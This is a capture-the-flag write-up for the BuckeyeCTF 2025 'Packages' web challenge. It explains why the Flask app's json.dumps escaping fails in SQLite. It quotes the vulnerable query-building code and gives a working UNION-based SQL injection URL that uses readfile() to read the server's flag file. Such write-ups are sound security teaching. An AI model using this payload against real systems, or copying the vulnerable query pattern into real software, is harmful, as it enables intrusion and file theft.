


## BuckeyeCTF 2025 - Packages Write-up



### Step 1: Initial Analysis and Source Code Review

The challenge involves exploring Debian and Debian-based packages through a web application at `https://packages.challs.pwnoh.io`. A downloadable `packages.zip` file is provided, containing the source code for the application.

Unzipping the file reveals the following components:

- **pyproject.toml**: Defines the project as "sql-injection" version 0.1.0, with dependencies on Flask and Gunicorn.
- **uv.lock**: A lockfile listing Python package dependencies, including Flask (3.1.2), Gunicorn (23.0.0), and their transitive dependencies like Jinja2, Werkzeug, etc.
- **seed.sql**: Creates a SQLite table `packages` and populates it with package data from various Debian (versions 11, 12, 13) and Ubuntu (versions 20.04, 22.04, 24.04) distributions. Data is fetched from official repositories like `deb.debian.org` and `archive.ubuntu.com`.
- **main.py**: The core Flask application code. It sets up a simple web server with a search form for distro and package. It uses SQLite to query the `packages` table based on user input.
- **Dockerfile**: Builds the container using a base image, compiles SQLite from source, adds the application files, sets up the environment, and runs the app.

Key part of `main.py` (vulnerable query construction):

```python
distro = request.args.get("distro", "").strip().lower()
package = request.args.get("package", "").strip().lower()

sql = "SELECT distro, distro_version, package, package_version FROM packages"
if distro or package:
    sql += " WHERE "
if distro:
    sql += f"LOWER(distro) = {json.dumps(distro)}"
if distro and package:
    sql += " AND "
if package:
    sql += f"LOWER(package) = {json.dumps(package)}"
sql += " ORDER BY distro, distro_version, package"

print(sql)
results = db.execute(sql).fetchall()
```

The use of `json.dumps` attempts to sanitize inputs by escaping special characters (e.g., `"` becomes `\"`), but this is ineffective for SQLite. In SQLite, backslashes (`\`) are not treated as escape characters in string literals—doubling the quote (e.g., `""` for `"`) is required instead. This mismatch allows SQL injection by breaking out of the string literal.

The database connection is persistent (`check_same_thread=False`), so injected queries can leverage available functions.

The goal is to exploit the SQL injection to read the flag from `/app/flag.txt`.

### Step 2: Understanding the SQL Injection Vulnerability

The vulnerability lies in how user input for `distro` and `package` is inserted into the SQL query using `json.dumps`. This function is meant for JSON serialization and escapes quotes with backslashes (e.g., `"` becomes `\"`), but SQLite does not interpret backslashes as escapes in strings. To escape a quote in SQLite, it must be doubled (`''` or `""`).

For example, if `distro` is set to `" OR 1=1 --`, `json.dumps` produces `"\" OR 1=1 --"`, which SQLite treats as a string containing a literal backslash and quote, not as an escape. However, to inject, we can use a payload that closes the string and injects code.

A crafted payload like `dwq" UNION ALL SELECT 1,2,3,4--` would result in SQL like:

`SELECT ... WHERE LOWER(distro) = "dwq\" UNION ALL SELECT 1,2,3,4--"`

But due to the escaping mismatch, we can adjust to break out properly. Testing shows the `distro` parameter is injectable via UNION queries, as the app renders results in a table, allowing us to observe injected data.

The query structure allows appending arbitrary SQL after closing the string literal. A working injection uses a payload that closes the quote and injects a UNION to select custom values, confirming the vuln.

### Step 3: Exploiting the Vulnerability Manually

To read the flag, we use `readfile('/app/flag.txt')`. Since the challenge had multiple solvers (49 solves at the time), the necessary setup was already in place, allowing the injection to succeed directly.

Use char() to encode paths, avoiding any potential filtering.

**Read the flag** (single request):

```
https://packages.challs.pwnoh.io/?distro=dwq"%20UNION%20ALL%20SELECT%20readfile(char(47,97,112,112,47,102,108,97,103,46,116,120,116)),NULL,NULL,NULL--%20IKLP&package=
```

The flag appears in the "Distro" column of the results table.



### Flag
`bctf{y0uv3_g0t_4n_apt17ud3_f0r_7h15}`